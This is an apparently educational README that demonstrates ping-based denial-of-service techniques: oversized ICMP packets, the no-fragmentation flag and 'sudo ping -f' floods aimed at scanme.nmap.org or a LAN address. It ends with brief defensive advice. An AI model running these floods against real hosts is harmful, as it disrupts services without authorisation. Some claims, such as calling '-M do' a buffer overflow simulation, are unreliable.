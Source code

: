 # 💥 Denial of Service (DoS) Attacks with Ping

This section demonstrates basic **Denial of Service (DoS)** techniques using large or manipulated **ICMP packets** (`ping`). These techniques can help test a system’s resilience against packet flooding or fragmentation-based disruptions.

> ⚠️ **Educational use only!** Never run these commands on unauthorized systems or networks.

---

## 🔍 Step 1: Resolve IP Address of Target

Use ping to resolve a website/domain to its IP:(`Nmap Scan-me website`)
![Dos](/docs/image/Dos1.png)

```bash
ping scanme.nmap.org
```
- Now use the IP (e.g., 45.33.32.156) for further tests.

## 📦 Step 2: ICMP Packet Flood with Custom Size
Basic command to test buffer size handling:

![Dos](/docs/image/Dos2.png)
```bash
ping scanme.nmap.org -s 80
```
- `-s` 80: Send 80-byte ICMP packets

Increasing this size sends more data in a single ping.

**🔁 Try increasing the size gradually to find the system's limit:**
![Dos](/docs/image/Dos3.png)
```bash
ping scanme.nmap.org -s 65506
ping scanme.nmap.org -s 65509
ping scanme.nmap.org -s 65508
ping scanme.nmap.org -s `65507`
```

## 🚫 Step 3: Prevent Packet Fragmentation with `-M do`
Some systems fragment large packets to handle them better. To simulate DoS more aggressively, you can prevent fragmentation:

```bash
ping scanme.nmap.org -s 2000 -M do
```
- `-M do` : Prevents fragmentation

- Will result in packet drop if the size exceeds system buffer

## 🧪 Step 4: Trial-and-Error for Max Packet Size

Continue increasing the size with -M do:
![Dos](/docs/image/Dos5.png)
```bash
ping scanme.nmap.org -s 1465 -M do
ping 192.168.1.1 -s 1464 -M do
```
⛔ If the system becomes unresponsive or replies stop, you may have hit the packet threshold or caused disruption.

![Dos](/docs/image/Dos4.png)
**Another Technique for PING DOS**
```bash
sudo ping -f ip_address
```
## 🛡️ Why DoS Works
Large ICMP packets may:

- Overflow the buffer

- Consume excessive processing time

- Exploit improperly configured firewalls or rate limits

## 🧷 Defensive Considerations (for Blue Teams)
- Limit ICMP rate using firewall (e.g., iptables)

- Drop fragmented packets

- Use IDS (like Snort) to detect unusual ping sizes

## ✅ Summary
**Technique	Command Example	Description**
- Normal ping	ping 192.168.1.1	Check if target is alive
  
- Custom packet size	ping -s 1000 192.168.1.1	Stress test with larger packets
  
- No fragmentation	ping -s 2000 -M do 192.168.1.1	Force buffer overflow simulation
- Trial-and-error attack	ping -s 5000 -M do 192.168.1.1	Maximize payload to check resistance
- TTL OS fingerprinting	ping 192.168.1.1	Check TTL in reply to guess OS

> 🧠 **Pro Tip**: Always perform DoS simulations in isolated environments like a VirtualBox lab or test subnet.
